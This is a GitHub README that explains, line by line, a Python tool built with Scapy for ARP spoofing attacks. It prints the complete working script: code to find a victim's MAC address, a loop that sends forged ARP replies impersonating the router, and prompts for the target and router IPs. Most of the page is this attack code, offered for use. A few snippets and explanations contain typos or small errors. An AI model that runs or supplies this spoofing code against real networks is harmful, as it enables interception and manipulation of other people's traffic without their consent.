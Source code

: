 ## Description 
***
ARPspoof is a tool written in python designed to perform ARP spoofing attack.
This tool allows the user to manipulate and intercept network traffic, is able to find MAC address from the victim IP address

ARP (address resolution protocol) a protocol that links an IP addres with a MAC of an endpoint.
## Code explanation
***
```
import subprocess, time
import scapy.all as scapy
from termcolor import colored as cl
from pyfiglet import figlet_format as ff
```
### `import subprocess, time`
***
`subprocess` is a module that allows you to spawn new processes.
`time` is a time management function.

### `import scapy.all as scapy`
***
Scapy is a powerful interactive packet manipulation library written in Python. Scapy is able to forge or decode packets of a wide number of protocols, send them on the wire, capture them, match requests and replies, and much more. (https://scapy.net/)
import `scapy.all` assigns the alias `scapy`.

### `from termcolor import colored as cl`
***
Termcolor is an ANSI color formatting for output in terminal.  (https://pypi.org/project/termcolor/)
import the function `colored` from `termcolor` library and assigns alias `cl`.

### `from pyfiglet import figlet_format as ff`
***
It takes ASCII text and renders it in ACII art fonts 
import `filglet_format` from `pyfiglet` library and assigns alias `ff`.

```
def get_mac_address(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
    broadcast_arp_request = broadcast/arp_request
    data = scapy.srp(broadcast_arp_request, timeout=1,        verbose=False)[0]
    mac = data[0][1].hwsrc
    return mac
```

### def get_mac_address(ip)
***
definition of the function `get_mac_address`, take the IP address and uses to make ARP request.

### arp_request = scapy.ARP(pstd=ip)
***
scapy.ARP create an ARP request, protocol destination (pdst) set the destination IP.


### broadcast = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
***
create an ethernet packet, with broadcast MAC setted.

### broadcast_arp_request = broadcast/arp_request
***
we used `/` to combine both ARP and broadcast ethernet Packet, this will make the endpoint to answer back with his MAC address.

### data = scapy.srp(broadcast_arp_request, timeout=1, verbose=False)[0]
***
`srp()` function send packets and recives packets at layer 2, `broadcas_arp_request` the packet we created, 
`timeout=1` wait 1 second,
`false` disable the detailed output, 
`srp` return a tuple, where the first element contain all the responses, [0] take that list

### mac = data{0}{1}.hwsrc
***
the MAC address got extracted from the answer, `data` take the element from the list that contains request and response, `[1]` take the request
`hwsrc` contains the MAC address of the endpoint who sended the response

### return = mac
***
output the MAC 

```
def arp_spoofing(tip, rip):
    tmac = get_mac_address(tip)
    cnt = 0
    while True:
        try:
            print(cl('='*50, 'red'))
            print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing program\n\t\t\t-An AYLIT production', 'red'))
            print(cl('='*50, 'red'))
            packet = scapy.ARP(op=2, pdst=tip, hwdst=tmac, psrc=rip)
            scapy.send(packet, verbose=False)
            cnt += 2
            print(cl(f'Packets sent: {str(cnt)}', 'green'))
            time.sleep(1)
            subprocess.call('clear', shell=True)
        except KeyboardInterrupt:
            print(cl(f'Quitting program...', 'red'))
            break
```

### def arp_spoofing(tip, rip)
***
definition of the function `arp_spoofing(tip, rip)` target ip/router ip
### tmac = get_mac_address(tip)
call the function `get_mac_address` taking the MAC of the target ip, the result is stored into tmac

### cnt = 0
***
count the packet and track the number of packets

``` 
while True:
        try:
            print(cl('='*50, 'red'))
            print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing
            program\n\t\t\t-An AYLIT production', 'red'))
            print(cl('='*50, 'red'))
            packet = scapy.ARP(op=2, pdst=tip, hwdst=tmac psrc=rip)
            scapy.send(packet, verbose=False)
            cnt += 2
            print(cl(f'Packets sent: {str(cnt)}', 'green'))
            time.sleep(1)
            subprocess.call('clear', shell=True)
        except KeyboardInterrupt:
            print(cl(f'Quitting program...', 'red'))
            break
```
***
`print(cl('='*50, 'red'))
`print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing
`program\n\t\t\t-An AYLIT production', 'red'))print(cl('='*50, 'red'))` graphic stuff

### packet = scapy.ARP(op=2, pdst=tip, hwdst=tmac psrc=rip)
***
create a packet containing all the components, `op=2` specify the kind of ARP operation, 2 specify response, `pdst=tip` set the destination IP, `hwdst=tmac` set the MAC, `psrc=rip` set the source IP that will be covered with rip

### scapy.send(packet, verbose=False)
***
send the packet, `false` supress the detailed output


`cnt += 2` +2 on the counter
`print(cl(f'Packets sent: {str(cnt)}', 'green')` print the number of packets sent
`time.sleep(1)` introduce 1 second pause

### subprocess.call(`clear`, shell=True)
***
clear the terminal

### except KeyboardInterrupt: print(cl(f'Quitting program...', 'red')) break
***
when a user press `ctrl + c` an exit message get printed, `break` quit the cicle

```
subprocess.call('clear', shell=True)

print(cl('='*50, 'red'))
print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing program\n\t\t\t-An AYLIT production', 'red'))
print(cl('='*50, 'red'))

target_ip = input(cl("Enter the target's IP:", 'yellow'))
router_ip = input(cl("Enter the router's IP:", 'yellow'))
subprocess.call('clear', shell=True)

arp_spoofing(target_ip, router_ip)
```

### subprocess.call('clear', shell=True)
***
clear the terminal

`print(cl('='*50, 'red'))
`print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing program\n\t\t\t-An AYLIT production', 'red'))
`print(cl('='*50, 'red'))`  
***
graphic stuffs

### target_ip = input(cl("Enter the target's IP:", 'yellow'))
***
ask the user to insert target IP

### router_ip = input(cl("Enter the router's IP:", 'yellow'))
***
ask the user to insert router IP

### subprocess.call('clear', shell=True)
clear the terminal

### arp_spoofing(target_ip, router_ip)
***
call the function `arp_spoofing` using the target/router IP asked
